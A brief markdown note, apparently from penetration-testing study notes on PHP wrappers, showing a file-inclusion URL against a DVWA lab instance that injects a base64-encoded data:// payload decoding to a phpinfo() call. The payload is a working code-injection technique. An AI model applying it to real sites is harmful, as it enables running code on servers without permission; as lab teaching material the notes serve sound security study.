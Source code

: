 ## PHP Wrappers

### Data
` http://192.168.0.104/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== `

`PD9waHAgcGhwaW5mbygpOyA/Pg== ` is **Base64** encoded value for `<?php phpinfo(); ?>`
